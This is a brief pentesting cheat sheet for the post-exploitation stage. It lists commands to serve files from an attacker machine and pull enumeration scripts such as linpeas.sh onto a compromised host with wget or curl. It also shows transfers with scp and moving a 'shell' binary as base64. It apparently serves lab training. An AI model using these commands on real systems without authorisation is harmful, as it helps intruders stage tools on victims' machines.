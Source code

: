 ```yaml
---
tags:
  - Pentesting
  - Post-Exploitation
  - File_Transfer
---
```

| **Transferring Files**                                 |                                                                       |
| ------------------------------------------------------ | --------------------------------------------------------------------- |
| `python3 -m http.server 8000`                          | Start a local webserver                                               |
| `wget http://10.10.14.1:8000/linpeas.sh`               | Download a file on the remote server from our local machine           |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Download a file on the remote server from our local machine           |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh`       | Transfer a file to the remote server with `scp` (requires SSH access) |
| `base64 shell -w 0`                                    | Convert a file to `base64`                                            |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell`      | Convert a file from `base64` back to its orig                         |
| `md5sum shell`                                         | Check the file's `md5sum` to ensure it converted correctly            |
